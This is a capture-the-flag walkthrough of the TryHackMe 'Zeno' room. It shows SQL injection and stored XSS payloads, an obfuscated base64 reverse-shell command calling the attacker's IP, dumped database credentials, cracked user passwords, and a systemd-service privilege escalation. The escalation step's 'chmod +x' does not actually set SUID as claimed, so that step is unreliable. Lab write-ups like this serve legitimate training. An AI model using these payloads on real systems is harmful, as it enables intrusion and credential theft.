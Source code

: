 ##### Room Name: [Zeno](https://tryhackme.com/room/zeno)
##### Difficulty: Medium
##### Room Description: Do you have the same patience as the great stoic philosopher Zeno? Try it out!
---

## Enumeration

There was some problem with nmap and because of that it wasn't able to show all the open ports. [Rushi](https://iamrushi.cf/) suggested to me that I use Rustscan.
### Rustscan

![img-rustscan](https://raw.githubusercontent.com/Manash404/CTF/main/TryHackMe/Zeno/images/rustscan.png)

Found few more ports. So now I redid the nmap scan on these ports:
```js
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:23:62:a2:18:62:83:69:04:40:62:32:97:ff:3c:cd (RSA)
|   256 33:66:35:36:b0:68:06:32:c1:8a:f6:01:bc:43:38:ce (ECDSA)
|_  256 14:98:e3:84:70:55:e6:60:0c:c2:09:77:f8:b7:a6:1c (ED25519)
12340/tcp open     http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: We&#39;ve got some trouble | 404 - Resource not found
22582/tcp filtered unknown
22622/tcp filtered unknown
```

### The web server
Directory busting:
```js
/index.html (Status: 200)
/rms (Status: 301)
```
/index.html does not return anything useful. /rms is Restaurant Management System.
After exploring the website with burp proxy on in the background, I have found a few parameterized requests.
We can do SQLi in the delete order query:
` http://10.10.200.163:12340/rms/delete-order.php?id=0' or 1-- - `

### sqlmap
We have time based SQLi. After some time, here is the info:
* Database Name: dbrms
* Found some tables: 
  
![img-sqlmap-tables](https://raw.githubusercontent.com/Manash404/CTF/main/TryHackMe/Zeno/images/sqlmap-tables.png)


I couldn't find anything useful from the database. And it takes a lot of time. So let's see if there's other vulnerabilities.
The website displays the username(first-name). Try checking for xss and SSTI
Could not find SSTI but it has stored XSS. Set the payload to ` ${{4*4}}<img src=x onerror=alert(1)> `

![img-stored-xss](https://raw.githubusercontent.com/Manash404/CTF/main/TryHackMe/Zeno/images/stored-xss.png)

Let's see if we can steal the cookies of other users. Upload a cookie stealer payload this time.
![img-cookie-stealer](https://raw.githubusercontent.com/Manash404/CTF/main/TryHackMe/Zeno/images/cookie-stealer.png)

Now I logged in with this account and, did some actions on the website in hopes of getting a hit by other users so that I can grab their cookies. I did not get any hits. So its safe to say that there's no other user that would visit my profile. Let's check for other exploits.

### Searching for exploits:
Search for Restaurant Management System exploits in searchsploit.

![img-rms-exploit](https://raw.githubusercontent.com/Manash404/CTF/main/TryHackMe/Zeno/images/rms-exploit.png)

We get a webshell uploaded. Use the `?cmd= param` for command execution.

Use this payload in URL encoded form:
`echo L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMC4xNC4xNC43OC84MCAwPiYxCg==|base64 -d|bash`

The payload after url encoding will be:
```
%65%63%68%6f%20%4c%32%4a%70%62%69%39%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4e%43%34%78%4e%43%34%33%4f%43%38%34%4d%43%41%77%50%69%59%78%43%67%3d%3d%7c%62%61%73%65%36%34%20%2d%64%7c%62%61%73%68
```

### Got a shell. Now what?

After getting a shell, I found a config file `/var/www/html/rms/connection/config.php` that contains passwords.

```php
bash-4.2$ pwd
/var/www/html/rms/connection
bash-4.2$ cat config.php 
<?php
    define('DB_HOST', 'localhost');
    define('DB_USER', 'root');
    define('DB_PASSWORD', 'veerUffIrangUfcubyig');
    define('DB_DATABASE', 'dbrms');
    define('APP_NAME', 'Pathfinder Hotel');
    error_reporting(1);
?>
```

### Mysql database enumeration

In the database, there is a table named `members`. It contains some password hashes and answer hashes. I cracked a few of them

Here are the cracked hashes and passwords:
```md
Username|Email|Password|Security Answer
Stephen|omolewastephen@gmail.com|1234|deborah
john|jsmith@sample.com|jsmith123|middlename
edward|edward@zeno.com|COULD NOT CRACK|COULD NOT CRACK
```

I tried these passwords on edward's account but couldn't login.

### Linpeas
Now let's run Linpeas

![img-linpeas](https://raw.githubusercontent.com/Manash404/CTF/main/TryHackMe/Zeno/images/linpeas.png)

We have write privileges on `/etc/systemd/system/zeno-monitoring.service`
Also found new creds.
username=**zeno**,password=**FrobjoodAdkoonceanJa**

Tried `sudo -l` with this password but it did not work.
Let's try editing the service file

### Service file misconfiguration to root

Let's add the SUID bit on `/bin/bash` for an easy privesc. Change the ExecStart to the following as shown below:
```
ExecStart=/usr/bin/chmod +x /bin/bash
```

![img-zeno-service](https://raw.githubusercontent.com/Manash404/CTF/main/TryHackMe/Zeno/images/zeno-service.png)

Now when this service starts again, we will have a SUID `/bin/bash`. We can make that happen if we can somehow restart it. But we don't have permissions to do that as a low privileged user. Another way to make it happen is if we can somehow reboot the system.
I tried to reboot the system but couldn't. It required root privileges to reboot.

Let's try the password found earlier (`FrobjoodAdkoonceanJa`) on user `edward`. We successfully login as edward 🎉
Checking for `sudo -l` permissions on edward, we see that he can reboot the system.

![img-edward-sudo](https://raw.githubusercontent.com/Manash404/CTF/main/TryHackMe/Zeno/images/edward-sudo.png)

Reboot the machine with `sudo /usr/sbin/reboot` and now when the system is fully rebooted, login as edward through ssh. We now have a SUID `/bin/bash`. Use it to escalate privileges to **root**

![img-root](https://raw.githubusercontent.com/Manash404/CTF/main/TryHackMe/Zeno/images/root.png)

